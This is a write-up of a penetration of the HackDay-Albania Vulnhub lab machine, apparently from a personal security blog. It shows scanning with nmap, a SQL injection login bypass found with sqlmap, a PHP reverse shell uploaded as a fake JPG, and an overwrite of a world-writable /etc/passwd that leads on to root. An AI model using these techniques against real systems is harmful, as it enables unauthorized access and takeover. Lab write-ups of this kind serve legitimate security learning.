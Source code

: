 ```yaml
---
layout: single
title: "Vulnhub Write-up #2 : HackDay-Albania"
excerpt: "Writeup for 'HackDay-Albania' machine from vulnhub."
date: 2020-05-06
header:
  teaser: /assets/images/Stripe-Vulnhub/vulnhub.png
  teaser_home_page: true
classes: wide
categories:
  - vulnhub
  - infosec
tags:
  - sqli  
  - auth-bypass
  - write-perm
---
```



In this writeup we are looking at HackDay-Albania from Vulnhub.
I spent time to complete this VM as it took my atention as the first Albanian VM I have ever seen since I am an albanian too and would be interested to take a look. This machine has quite an interesting walkthrough with beginner to intermediate level steps.
Starts with a vulnerable bank from where we can drop a reverse shell and then write to /etc/passwd to escalate to root. Lets dig in:

## Enumeration 
As always starting with a nmap scan after setting up the image to virtualbox and powering it on we get those results :
```
root@kali:~# nmap -sC -A 192.168.1.6
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-06 20:00 CEST
Nmap scan report for 192.168.1.6
Host is up (0.00025s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:76:a2:f0:82:5f:1f:75:0d:e4:c4:c5:a7:48:b1:58 (RSA)
|   256 21:fe:63:45:2c:cb:a1:f1:b6:ba:36:dd:ed:d3:d9:48 (ECDSA)
|_  256 25:94:fb:00:c2:c0:ef:30:4a:02:d2:39:d5:57:17:a8 (ED25519)
8008/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 26 disallowed entries (15 shown)
| /rkfpuzrahngvat/ /slgqvasbiohwbu/ /tmhrwbtcjpixcv/ 
| /vojtydvelrkzex/ /wpkuzewfmslafy/ /xqlvafxgntmbgz/ /yrmwbgyhouncha/ 
| /zsnxchzipvodib/ /atoydiajqwpejc/ /bupzejbkrxqfkd/ /cvqafkclsyrgle/ 
|_/unisxcudkqjydw/ /dwrbgldmtzshmf/ /exschmenuating/ /fytdinfovbujoh/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: HackDay Albania 2016
MAC Address: 08:00:27:DC:2E:3D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.25 ms 192.168.1.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.65 seconds
```
Port 22 (SSH) and Port 8008 (HTTP) opened...
The HTTP Server comes up with a bunch of random word directories which seem weird to me.

I firstly tried to navigate to the HTTP server and look for something around : 

![message](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/1.png)

This is the image presented in the root page alongside with a message written in Albania language which means :

`If it's me, I know where to go ;)`

Interesting...

After failing to grab any other possible information from the http server I randomly picked one and tried to navigate to it and ended up with the following result :
![wrong](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/2.png)

Another image with a message in albanian which means : 

`is this the right directory? or am I loosing my time?`

I found this helpful because while randomly navigating to other directories this could help us identify the useful directory...
After some attempts `/unisxcudkqjydw/` returns with the following message :

``IS there any /vulnbank/ in there ??? ``

## Initial Foothold

I tried to navigate to ``/unisxcudkqjydw/vulnbank`` and it seemed like it was a valid directory with content on it :

![dir](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/3.png)

Accessing ``client/`` shows the following site :

![client](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/4.png)

A login page which is probably vulnerable to sql injection , however the usual manual injections didnt work so I decided to fire sqlmap against it :

```
root@kali:~# sqlmap -u http://192.168.1.6:8008/unisxcudkqjydw/vulnbank/client/login.php --forms
```

![sqlmap](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/5.png)

``ctSS' RLIKE SLEEP(5)-- sohc`` and empty username seems to be legit for sqlmap... so why not for us? 
I went to try it to the login page and was able to succesfully bypass the login page :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/6.png)

A upload option is presented to us in the main page which means : MONEY! 
I tried to upload a random thing and got the following warning : 

``After we got hacked we our allowing only image files to upload such as jpg , jpeg , bmp etc...``

My first thought was that we could make a reverse shell written in php and inject magic bytes in the beggining of the file so the server would identify it as a JPG file so I went ahead to try that :
```
root@kali:~# echo -e '\xff\xd8\xff\xdb' > fake.php.jpg
```

After injecting the magic byte to the ``fake.php.jpg`` we can go ahead and edit it with `vi` or any preferred text editor and paste the php reverse shell code.

Afterwards I tried to upload , however no luck with this method and no reverse shell was poped which made me confused...
I made a second attempt but this time I simply copied the php reverse shell code in a .jpg file format and tried to upload it :
```
root@kali:~# cp /usr/share/webshells/php/php-reverse-shell.php shelltest.jpg
```

After clicking `View Ticket` in the main page I finally got a response :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/8.png)

Finally a reverse shell as `www-data` 

## Escalating to User
I quickly located the bank files in machine and went through config.php to see for a possible password reuse somewhere :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/9.png)

Woaah!! Nice password over there , but not the correct one to `su` as ``taviso`` so I used the credentials to login to the mysql database and maybe find some other passwords :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/11.png)

2 more useless passwords appeared which again didnt work , so I began to enumerate more...

I was trying to find writable permissions when I found something interesting :
```
www-data@hackday:/$ ls -la /etc/passwd
ls -la /etc/passwd
-rw-r--rw- 1 root root 1623 Oct 22  2016 /etc/passwd
```

I have write access over /etc/passwd and the first guess was to add a new password for user : ``taviso`` so I copied the contents of file in my machine , generated a new password for taviso : ``albania`` and re-uploaded the file to the machine :

```
root@kali:~# openssl passwd -1
Password: 
Verifying - Password: 
$1$JMlW1qnd$3BOKOiF3ePP4aJ.RuAf4e0
```
```
www-data@hackday:/tmp$ cp passwd /etc/passwd
cp passwd /etc/passwd
www-data@hackday:/tmp$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
taviso:$1$JMlW1qnd$3BOKOiF3ePP4aJ.RuAf4e0:1000:1000:Taviso,,,:/home/taviso:/bin/bash
www-data@hackday:/tmp$ 
```

Now I can simply try to su as taviso using the password we set :
![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/12.png)

And ... we are in as Taviso!


## Root Privesc
The first basic enumeration for the next privesc ``sudo -l`` gave me enough to do the next step : 

```
taviso@hackday:/tmp$ sudo -l
sudo -l
[sudo] password for taviso: albania

Matching Defaults entries for taviso on hackday:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User taviso may run the following commands on hackday:
    (ALL : ALL) ALL
taviso@hackday:/tmp$ 
```

Seems like user ``Taviso`` has permission to run any command as sudo and seems like we can simply use ``sudo su`` to grab a root shell:

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/13.png)

I really liked this machine and I was so excited to try out an Albanian Machine. 



